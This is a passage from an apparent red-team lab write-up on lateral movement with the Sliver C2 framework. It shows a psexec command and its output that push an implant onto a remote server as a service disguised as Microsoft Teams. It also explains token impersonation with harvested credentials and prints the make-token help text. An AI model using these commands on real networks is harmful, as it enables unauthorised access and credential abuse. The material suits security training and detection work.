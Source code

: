 From SRV02, Jumping into the psexec utility, we must specify the path of the implant's binary.

```bash
sliver (http-beacon) > psexec --custom-exe /home/maine/psexec-pivot.exe --service-name Teams --service-description MicrosoftTeams srv02.mainesec.local

[*] Uploaded service binary to \\srv02.mainesec.local\C$\windows\temp\23grsdf.exe
[*] Waiting a bit for the file to be analyzed ...
[*] Successfully started service on srv02.mainesec.local (c:\windows\temp\23grsdf.exe)
[*] Successfully removed service Teams on srv02.mainesec.local
```

Now we have a session from our attacker machine to the SRV02. Note that Sliver (psexec) will generate a random file name, and by default, it will place it in C:\Windows\Temp, which can be monitored

# Lateral Movement

Of course, simply because the user Magareth does not belong to the Remote Desktop Group :) so after getting new credentials via deep enumeration, this is how we lateraly move using sliver C2.
To use other credentials, we need to create a new logon session using the technique make token (make-token in Sliver) to create a new token with the credentials we have harvested. Another technique involves the usage of runas, which facilitates the creation of a new process operating in the context of the specified credentials. This also can be done via a sacrificial process started with the help of Rubeus, let us see the help menu

```bash
[server] sliver > help make-token

Command: make-token -u USERNAME -d DOMAIN -p PASSWORD
About: Creates a new Logon Session from the specified credentials and impersonate the resulting token.
You can specify a custon Logon Type using the --logon-type flag, which defaults to LOGON32_LOGON_NEW_CREDENTIALS.
Valid types are:

LOGON_INTERACTIVE
LOGON_NETWORK
LOGON_BATCH
LOGON_SERVICE
LOGON_UNLOCK
LOGON_NETWORK_CLEARTEXT
LOGON_NEW_CREDENTIALS


Usage:
======
  make-token [flags]

Flags:
======
  -d, --domain     string    domain of the user to impersonate
  -h, --help                 display help
  -T, --logon-type string    logon type to use (default: LOGON_NEW_CREDENTIALS)
  -p, --password   string    password of the user to impersonate
  -t, --timeout    int       command timeout in seconds (default: 60)
  -u, --username   string    username of the user to impersonate
```
